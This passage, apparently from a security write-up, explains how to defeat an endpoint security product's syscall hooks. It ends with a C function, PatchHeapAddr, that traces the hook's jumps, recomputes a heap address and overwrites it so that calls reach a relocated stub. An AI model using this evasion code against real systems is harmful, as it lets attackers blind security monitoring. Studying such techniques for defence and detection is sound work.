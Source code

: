 The final memory address that is loaded into the `jmp` is a section of heap memory, and happens to be writable. We can therefore work out where this address is by programmatically performing the steps listed above, writing our relocated stub address to the address we calculate, and the `jmp r10 + 0x28` will naturally jump to the relocated stub, load the SSN into `eax`, and jump back to after the hook.

Our function needs to:
1. Follow the first `jmp`
2. Count how many `push rcx` are performed
3. Follow the second `jmp`
4. Perform the XOR between the two values to get our initial stack address
5. Add `0x45` for however many `push rcx` we counted
6. Add `0x28` to account for the final addition in the jump
7. Write the address we found for the relocated stub to here

```c
BOOL PatchHeapAddr(BYTE * landingAddr, VOID * targetAddr) {
    DWORD_PTR * patchAddr = NULL;
    BYTE * nextLanding = NULL;
    BYTE * nextInstruction = NULL;
    BYTE * initialHeapAddr = NULL;
    VOID * xorAddr1 = NULL;
    VOID * xorAddr2 = NULL;
    DWORD offset = 0;
    int stackValCounter = 0;

    // Count how many pushes to the stack are made before the jump
    while (*landingAddr == 0x51) {
        stackValCounter++;
        landingAddr++;
    }

    nextLanding = ResolveJmp(landingAddr, NULL);
    if (nextLanding == NULL) {
        return FALSE;
    }

    // Find the starting value of the heap address, pre-modification by the loop
    // To do this we find the value moved into r10. This is the address of the next instruction + an offset
    offset = *((DWORD *) (nextLanding + 3));
    nextInstruction = nextLanding + 7;
    xorAddr1 = (VOID *) *((DWORDLONG *) (nextInstruction + offset));

    // We then find the next value, which will be XOR'd with the first. We skip an instruction in the middle which isn't used in resolving the address.
    // Then it is also a case of the next instruction + an offset
    nextInstruction = nextInstruction + 6;
    offset = *((DWORD *) (nextInstruction + 3));
    nextInstruction = nextInstruction + 7;
    xorAddr2 = (VOID *) *((DWORDLONG *) (nextInstruction + offset));

    // XORing the two values gives us the initial address on the heap, before any modifications
    initialHeapAddr = ((DWORDLONG) xorAddr1) ^ ((DWORDLONG) xorAddr2);

    // We then perform the same actions the loop does, adding 0x45 for each value previously pushed to the stack, and adding 0x28 on the end.
    patchAddr = initialHeapAddr + (0x45 * (stackValCounter)) + 0x28;

    *patchAddr = targetAddr;

    return TRUE;
}
```
